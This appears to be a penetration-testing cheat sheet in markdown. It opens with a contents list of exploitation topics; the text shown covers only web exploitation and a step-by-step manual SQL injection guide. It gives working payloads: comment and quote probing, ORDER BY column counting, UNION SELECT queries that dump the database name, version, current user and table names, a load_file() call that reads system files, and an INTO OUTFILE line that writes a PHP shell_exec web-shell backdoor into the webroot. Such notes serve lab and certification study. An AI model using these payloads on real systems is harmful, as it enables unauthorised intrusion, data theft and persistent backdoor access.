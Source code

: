 # Exploitation
* [Web application](#Exploitation-Web-application)
* [Services](#Services)
* [Password Attacks](#Password-Attacks)
* [SMB and NETBIOS](#SMB-and-NETBIOS)
* [NFS Shares](#NFS-Shares)
* [All the Shells](#Shells)
* [File transfers](#File-transfers)
* [Misc](#Misc)

## Exploitation Web application
### General
When modifying web exploits, there are several key questions we generally need to ask while approaching the code:
-	Does it initiate an HTTP or HTTPS connection?
-	Does it access a web application specific path or route?
-	Does the exploit leverage a pre-authentication vulnerability?
-	If not, how does the exploit authenticate to the web application?
-	How are the GET or POST requests crafted to trigger and exploit the vulnerability?
-	Does it rely on default application settings (such as the web path of the application) that may have been changed after installation?
-	Will oddities such as self-signed certificates disrupt the exploit?

## SQL Injection
- Use ```‘``` and ```“``` to look for possible errors
- use ```#``` and ```-- ``` for comments after the injection. (After the ``-- ``` a space is required_
  - If ```-- ``` in url the add something behind it so the space doesn't get truncated. For example ```-- \\```
- If returning multiple rows gives errors use ```LIMIT 1``` in the query
- use ```ORDER BY``` to find the amount of columns. Increment it by 1 till no output is shown.
- use ```load_file('C:/Windows/System32/drivers/etc/hosts')``` to load files instead of database data.
- use ```"<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '<PATH TO WEBROOT>/backdoor.php'``` to create a simple php backdoor.

### Manual SQL injection
- https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step/
1. Find the SQL injecton
   - Use ```‘``` and ```“``` to look for possible errors.
   - Vunerable value for example is ```artist=1```
2. Find the amount of columns
   - use ```artist=1 ORDER BY 1```. Increment it by 1 till no output or error is given. If ``artist=1 ORDER BY 4`` gives an error, the amount of columns is 3.
3. Use a union based SQL injection
   - use ```artist=1 union select 1,2,3``` (amount of columns). If no other output is given:
     - use wrong output ```artist=-1 union select 1,2,3```
4. Fetch the name of the database and version/current user
   - ```artist=-1 union select 1,database(),3```
   - ```-1 union select 1,version(),current_user()``` 
5. Fetch the table names inside the database
   - Retrieve all table names
     - ```artist=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()```
   - Get first table name (Limited by first because of the ```limit 0,1```)
     - ```artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1```
   - Get the second table name (Limited by second because of the ```limit 1,1```)
     - ```artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 1,1```